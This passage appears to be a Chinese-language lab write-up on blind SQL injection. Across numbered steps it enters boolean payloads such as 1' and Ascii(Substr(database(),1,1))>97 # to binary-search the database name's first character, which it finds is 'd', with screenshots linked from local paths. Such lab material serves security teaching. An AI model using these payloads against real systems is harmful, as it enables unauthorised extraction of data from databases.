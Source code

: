 ![image-20250528193555891](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193555891.png)

#### 5.输入1' and Ascii(Substr(database(),1,1))>97 #

![image-20250528193703059](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193703059.png)

#### 6.成功输出，说明第一个字符Asscii大于97

![image-20250528193713948](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193713948.png)

#### 7.输入1' and Ascii(Substr(database(),1,1))<122 #

![image-20250528193733932](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193733932.png)

#### 8.成功输出，Ascii小于122

![image-20250528193749159](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193749159.png)

#### 9.输入1' and Ascii(Substr(database(),1,1))<109 #

![image-20250528193827333](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193827333.png)

#### 10.成功输出，Ascii小于109

![image-20250528193837939](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193837939.png)

#### 11.输入1' and Ascii(Substr(database(),1,1))<103 #，Ascii小于103



![image-20250528193900229](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193900229.png)

#### 12.Ascii不小于100

![image-20250528193940029](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193940029.png)



#### 13.Ascii为100

![image-20250528194019717](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528194019717.png)



#### 14.输入1' and Substr(database(),1,1)=‘d’ #



![image-20250528194434248](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528194434248.png)

#### 15.成功输出，说明第一个字为d

![image-20250528194400950](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528194400950.png)
